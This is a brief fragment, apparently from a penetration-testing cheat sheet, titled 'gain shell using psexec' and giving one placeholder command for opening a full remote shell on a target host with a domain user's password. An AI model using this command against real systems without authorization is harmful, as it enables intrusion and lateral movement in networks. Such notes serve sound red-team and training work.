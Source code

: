 **gain shell using psexec**
full shell

syntax:
```
psexec domain.com/user:password@<target host>
```

